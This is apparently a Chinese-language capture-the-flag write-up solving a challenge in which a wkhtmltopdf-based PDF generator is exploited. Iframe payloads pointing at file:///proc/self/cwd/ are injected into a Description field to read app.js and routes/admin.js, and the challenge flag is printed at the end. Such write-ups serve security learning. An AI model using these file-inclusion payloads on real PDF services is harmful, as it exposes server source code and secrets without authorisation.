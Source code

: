 上網搜尋後，發現了這篇文章
https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/

內容是講說由於 wkhtmltopdf 可以塞入 html，因此有 LFI 及 SSRF 等漏洞

嘗試建構 payload，使用 iframe 並讀取網頁原始碼，由於網頁是 express 寫的，因此這邊假設檔案名稱為 app.js

以下片段塞入 Description 區域，不過不確定是否也能塞在其他欄位

```htmlembedded!
<iframe src="file:///proc/self/cwd/app.js" height="2000" width="1000">
```

成功讀取

![](https://i.imgur.com/GEVIzvU.png)

不過看來，/admin 在對應到的是 /route/admin.js 的檔案，因此嘗試讀取

```htmlembedded!
<iframe src="file:///proc/self/cwd/routes/admin.js" height="2000" width="1000">
```

一樣成功讀取

![](https://i.imgur.com/dTyurVa.png)

flag 在原始碼中

flag{ssRf-thrU-d@-PDF-0K-Bas3d}